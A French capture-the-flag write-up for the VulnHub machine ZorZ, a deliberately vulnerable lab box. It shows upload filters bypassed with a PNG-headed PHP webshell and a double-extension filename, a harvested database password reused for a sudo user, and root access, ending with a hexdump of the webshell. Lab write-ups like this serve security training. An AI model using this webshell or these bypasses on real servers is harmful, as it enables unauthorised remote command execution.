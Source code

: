 ```yaml
---
title: "Solution du CTF ZorZ de VulnHub"
tags: [CTF, VulnHub]
---
```


[TopHatSec: ZorZ](https://vulnhub.com/entry/tophatsec-zorz,117/) fait partie de la même série que le CTF [Freshly]({% link _posts/2023-01-02-Solution-du-CTF-Freshly-de-VulnHub.md %}). On va potentiellement rester sur notre faim aussi car il semble qu'il n'y ait rien prévu pour l'escalade de privilèges... mais sait-on jamais.

> This machine will probably test your web app skills once again.
> 
> There are 3 different pages that should be focused on (you will see!) If you solve one or all three pages, please send me an email and quick write up on how you solved each challenge.
> 
> Your goal is to successfully upload a webshell or malicious file to the server.
> 
> If you can execute system commands on this box, thats good enough!!! I hope you have fun!

On a une page d'index avec un formulaire d'upload. Je lance tout de même `feroxbuster` qui me trouve d'autres ressources :

```
301        9l       28w      318c http://192.168.56.90/javascript
301        9l       28w      318c http://192.168.56.90/phpmyadmin
403       10l       30w      293c http://192.168.56.90/server-status
200       15l       31w      367c http://192.168.56.90/
301        9l       28w      314c http://192.168.56.90/jQuery
301        9l       28w      316c http://192.168.56.90/uploads2
301        9l       28w      316c http://192.168.56.90/uploads3
200       15l       31w      367c http://192.168.56.90/index.html
200       16l       38w      457c http://192.168.56.90/index2.html
200        4l       10w       76c http://192.168.56.90/uploader.php
```

Manuellement et par logique je trouve aussi le dossier `uploads1` à la racine.

J'utilise généralement un shell PHP qui contient juste un entête PNG avec ensuite un appel à `system()`. Ce n'est pas une image valide mais le fichier peut passer quelques filtres.

Quoi qu'il en soit ici ça passe comme dans du beurre :

```
File is valid, and was successfully uploaded.

Here is some more debugging info:Array
(
    [upfile] => Array
        (
            [name] => shell.php
            [type] => application/x-php
            [tmp_name] => /tmp/phpeKXzw6
            [error] => 0
            [size] => 71
        )

)
```

Je retrouve mon shell dans le dossier `uploads1` et je peux par exemple faire exécuter la commande `id` :

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Le second formulaire d'upload semble plus restrictif :

> Success! image/png.Sorry, only JPG, JPEG, PNG & GIF files are allowed.Sorry, your file was not uploaded.

Je renomme seulement mon fichier en `shell.php.png` et là ça passe :

> Success! image/png.The file shell.php.png has been uploaded.

Il apprait dans `uploads2` et est bien interprété.

Le dernier formulaire d'upload est moins basique et se base sur jQuery. Quand on sélectionne le fichier ce dernier apparait d'abord en preview avec le protocole `data://` et il faut reclicker sur `upload` pour terminer.

Mon shell précédent s'upload sans difficultés bien qu'il rale un peu sur les dimensions de l'image.

Il est temps d'explorer le système.

`LinPEAS` me trouve un fichier de configuration `/etc/phpmyadmin/config-db.php` qui contient des identifiants :

```php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
## Tue, 17 Feb 2015 20:54:38 -0500
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='toor2600root';
$basepath='';
$dbname='phpmyadmin';
$dbserver='';
$dbport='';
$dbtype='mysql';
```

Le mot de passe fonctionne pour l'utilisateur `user` qui est admin car a toutes les autorisations sudo :

```bash
www-data@zorz:/tmp$ su user
Password: 
user@zorz:/tmp$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on zorz:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User user may run the following commands on zorz:
    (ALL : ALL) ALL
user@zorz:/tmp$ sudo su
root@zorz:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Pour les curieux voici un hexdump de mon shell PHP :

```
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 3c 3f 70 68 70 0a 73  79 73 74 65 6d 28 24 5f  |.<?php.system($_|
00000020  47 45 54 5b 22 63 6d 64  22 5d 29 3b 0a 3f 3e 0a  |GET["cmd"]);.?>.|
```

*Publié le 2 janvier 2023*
